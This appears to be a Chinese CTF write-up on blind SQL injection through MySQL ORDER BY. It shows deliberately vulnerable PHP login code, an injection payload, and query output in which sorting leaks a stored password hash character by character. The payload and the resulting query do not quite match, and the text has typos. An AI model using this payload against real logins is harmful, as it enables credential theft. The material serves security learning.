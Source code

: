 
order by是mysql中对查询数据进行排序的方法， 使用示例

```
select * from 表名 order by 列名(或者数字) asc；升序(默认升序)
select * from 表名 order by 列名(或者数字) desc；降序
```

这里的重点在于order by后既可以填列名或者是一个数字。举个例子： id是user表的第一列的列名，那么如果想根据id来排序，有两种写法

```
select * from user order by id;
selecr * from user order by 1;
```

这个是在安恒杯月赛上看到的。 后台关键代码

```
$sql = 'select * from admin where username='".$username."'';
$result = mysql_query($sql);
$row = mysql_fetch_array($result);
if(isset($row)&&row['username']!="admin"){
    $hit="username error!";
}else{
    if ($row['password'] === $password){
        $hit="";
    }else{
        $hit="password error!";
    }

}
```

payload

```
username=admin' union 1,2,'字符串' order by 3
```

sql语句就变为

```
select * from admin where username='admin' or 1 union select 1,2,binary '字符串' order by 3;
```

这里就会对第三列进行比较，即将字符串和密码进行比较。然后就可以根据页面返回的不同情况进行盲注。 注意的是最好加上binary，因为order by比较的时候不区分大小写。

示例

```
mysql> select id,username,password from fa_admin where username ='' or 1 union select 1,2,'z' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  2 | test     | f0e1528ff82611ec9f49f7fdc135e535 |
|  1 | admin    | ff35c9d44ec654681d5822288edca5a3 |
|  1 | 2        | z                                |
+----+----------+----------------------------------+
3 rows in set (0.03 sec)

mysql> select id,username,password from fa_admin where username ='' or 1 union select 1,2,'a' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | a                                |
|  2 | test     | f0e1528ff82611ec9f49f7fdc135e535 |
|  1 | admin    | ff35c9d44ec654681d5822288edca5a3 |
+----+----------+----------------------------------+
3 rows in set (0.03 sec)
```